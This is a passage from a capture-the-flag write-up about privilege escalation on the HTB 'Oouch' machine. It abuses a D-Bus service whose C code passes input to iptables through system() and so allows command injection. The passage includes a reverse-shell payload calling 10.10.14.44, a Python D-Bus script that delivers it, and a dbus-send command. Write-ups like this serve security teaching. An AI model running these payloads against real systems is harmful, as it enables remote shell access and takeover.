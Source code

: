 In the other side of the D-Bus connection there is some C compiled binary running. This code is **listening **in the D-Bus connection **for IP address and is calling iptables via `system` function** to block the given IP address.\
**The call to `system` is vulnerable on purpose to command injection**, so a payload like the following one will create a reverse shell: `;bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' #`

### Exploit it

At the end of this page you can find the** complete C code of the D-Bus application**. Inside of it you can find between the lines 91-97 **how the **_**D-Bus object path**_ **and **_**interface name**_** are registered**. This information will be necessary to send information to the D-Bus connection:

```c
        /* Install the object */
        r = sd_bus_add_object_vtable(bus,
                                     &slot,
                                     "/htb/oouch/Block",  /* interface */
                                     "htb.oouch.Block",   /* service object */
                                     block_vtable,
                                     NULL);
```

Also, in line 57 you can find that **the only method registered** for this D-Bus communication is called `Block`(_**Thats why in the following section the payloads are going to be sent to the service object `htb.oouch.Block`, the interface `/htb/oouch/Block` and the method name `Block`**_):

```c
SD_BUS_METHOD("Block", "s", "s", method_block, SD_BUS_VTABLE_UNPRIVILEGED),
```

#### Python

The following python code will send the payload to the D-Bus connection to the `Block` method via `block_iface.Block(runme)` (_note that it was extracted from the previous chunk of code_):

```python
import dbus
bus = dbus.SystemBus()
block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
runme = ";bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' #"
response = block_iface.Block(runme)
bus.close()
```

#### busctl and dbus-send

```bash
dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block string:';pring -c 1 10.10.14.44 #'
```

* `dbus-send` is a tool used to send message to “Message Bus”
* Message Bus – A software used by systems to make communications between applications easily. It’s related to Message Queue (messages are ordered in sequence) but in Message Bus the messages are sending in a subscription model and also very quick.
* “-system” tag is used to mention that it is a system message, not a session message (by default).
* “–print-reply” tag is used to print our message appropriately and receives any replies in a human-readable format.
* “–dest=Dbus-Interface-Block” The address of the Dbus interface.
* “–string:” – Type of message we like to send to the interface. There are several formats of sending messages like double, bytes, booleans, int, objpath. Out of this, the “object path” is useful when we want to send a path of a file to the Dbus interface. We can use a special file (FIFO) in this case to pass a command to interface in the name of a file. “string:;” – This is to call the object path again where we place of FIFO reverse shell file/command.
